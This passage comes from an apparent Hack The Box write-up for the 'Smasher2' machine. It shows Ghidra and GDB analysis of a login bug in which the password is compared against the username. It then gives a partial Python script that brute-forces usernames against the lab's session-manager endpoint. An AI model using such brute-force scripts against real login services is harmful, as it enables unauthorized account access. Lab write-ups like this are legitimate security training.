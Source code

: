 In `SessionManager_check_login`, I can see the code does two `strcmp` calls to check the username and password:

![](/assets/images/htb-writeup-smasher2/ghidra2.png)

I put a breakpoint in GDB at the `SessionManager_check_login` function call and traced its execution.

First, there's a `strcmp` for the username:

![](/assets/images/htb-writeup-smasher2/gdb.png)

Then on the next `strcmp` for the password there's something really strange...

![](/assets/images/htb-writeup-smasher2/gdb2.png)

It's comparing the supplied password against the username. Wow, that's a pretty bad bug! So if I just brute force the usernames and I find a valid one I will be able to login by using it as the password.

To brute force the username, I wrote the script below but had to factor in some error handling whenever I would get a 403 message for some usernames with invalid characters. Sometimes I would also get some false positive, plus the box also dies after ~300 login attempts so I had to reset quite a few times before I figured out the right wordlist.

```python
#!/usr/bin/python

import requests
import time

proxies = {
    "http": "http://127.0.0.1:8080"
}

url = "http://wonderfulsessionmanager.smasher2.htb/auth"

headers = {
    "Content-Type": "application/json",
    "X-Requested-With": "XMLHttpRequest",

}

with open("userlist3.txt") as f:
    passwords = f.read().splitlines()

i = 0
bad = 0

while True:
    bad = 0
    s = requests.Session()
    r = s.get("http://wonderfulsessionmanager.smasher2.htb/login", proxies=proxies)
    if r.status_code != 200:
        print("GET FAILED!")
        exit(1)
    data = '{"action":"auth","data":{"username":"%s","password":"%s"}}' % (passwords[i], passwords[i])
    print("Testing username: %s" % passwords[i])
    while True:
        r = s.post(url, headers=headers, data=data, proxies=proxies)
        if r.status_code == 200:
            break
        if r.status_code == 403:
            bad = bad + 1
            if bad == 5:
```
